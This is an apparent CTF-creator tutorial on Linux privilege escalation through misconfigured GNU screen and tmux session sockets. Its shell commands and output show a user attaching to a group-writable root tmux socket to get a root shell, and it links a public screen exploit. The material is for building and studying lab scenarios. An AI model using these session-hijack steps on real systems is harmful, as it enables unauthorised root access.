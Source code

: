 # Linux Privilege Escalation - Open Shell Sessions for CTF Creators


# Open Shell Sessions

A terminal session represents an interaction with a terminal for software or an operating system. In UNIX systems, these sessions are stored as socket files and character files. If a terminal session has read, write, and execute permissions, it is possible to attach to the session. Programs such as GNU screen and tmux facilitate the management of terminal sessions and are known as terminal multiplexers.


# Privilege Escalation via Screen

List the screen sessions directory recursively: 

```shell
ls -lR /var/run/screen 2>/dev/null
```

Change the group of the directory to your group recursively:

```shell
sudo chgrp user -R /var/run/screen/S-root/
```

Add read, write, and execute permissions to your group recursively:

```shell
sudo chmod g+rwx -R /var/run/screen/S-root/
```

As we can see below the GNU screen program is aware of this misconfiguration so it doesn't let we create this privilege escalation attack vector:

```shell
user@pwn:~$ sudo screen -ls
Directory /run/screen/S-root must have mode 700.
```

Change the permissions to the one that it must have:

```shell
user@pwn:~$ sudo chmod 700 -R /var/run/screen/S-root/
user@pwn:~$ sudo screen -ls
There is a screen on:
	6848.pts-0.ubuntu	(12/04/2021 04:55:50 PM)	(Attached)
1 Socket in /run/screen/S-root.
```

If we try to add read, write, and execute permissions to the session file:

```shell
user@pwn:~$ sudo chmod 770 /var/run/screen/S-root/6848.pts-0.ubuntu
user@pwn:~$ sudo ls -la /var/run/screen/S-root/
total 0
drwx------ 2 root user  60 Dec 04 15:53 .
drwxrwxrwt 4 root utmp 80 Dec 04 15:53 ..
srwxrwx--- 1 root user   0 Dec 04 15:53 6848.pts-0.ubuntu
```

We can see that the file is not found:

```shell
user@pwn:~$ screen -dr 6848.pts-0.ubuntu
There is no screen to be detached matching 6848.pts-0.ubuntu.
user@pwn:~$ sudo screen -dr 6848.pts-0.ubuntu
There is a screen on:
	6848.pts-0.ubuntu	(12/04/2021 04:55:50 PM)	(Unknown)
There is no screen to be detached matching 6848.pts-0.ubuntu.
```

The only way as of this year (2021) to escalate privileges with `GNU Screen` is by using an old version or vulnerable version like [GNU Screen 4.5.0 - Local Privilege Escalation](https://www.exploit-db.com/exploits/41154).

# Privilege Escalation via Tmux

Let's create a scenario where the current session is misconfigured, startup by creating a shared session, this is done by creating a socket file:

```shell
sudo tmux -S /shared new -s session
```

Then create a new terminal window or tab and change the group of the shared socket file to a group that we belong:

```shell
sudo chown root:user /shared
```

If we can compromise a user in the `user` group, we can attach to this session and gain root access. Since the owner of the socket file is root and the user we compromised is in the group `user`:

```shell
user@pwn:~$ ls -l /shared 
srwxrwx--- 1 root user 0 Dec 27 16:42 /shared
```

Review our group membership with the `id` command or the `groups` commands, I'm going to execute both commands:

```shell
user@pwn:~$ id && echo '' && groups
uid=1000(user) gid=1000(user) groups=1000(user),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),132(lxd),133(sambashare)

user adm cdrom sudo dip plugdev lpadmin lxd sambashare
```

As we can see above, we're in the `user` group and the `user` group has read, write, and execute permission in the shared socket session file. Because of this misconfiguration, we can attach to the `tmux` session.

```shell
user@pwn:~$ tmux -S /shared
```

Confirm the root privileges with `id` command to see the `uid` or we can use the `whoami` command to print the `euid`. The important thing here is that either or both the `uid` or the `euid` is `0` (root):

```shell
root@pwn:/home/user# id
uid=0(root) gid=0(root) groups=0(root)
root@pwn:/home/user# whoami
root
root@pwn:/home/user# 
```

In old versions of `tmux`, we could attach to any session so if you're in a system with an old tmux version running it is worth a try to attach to that session.
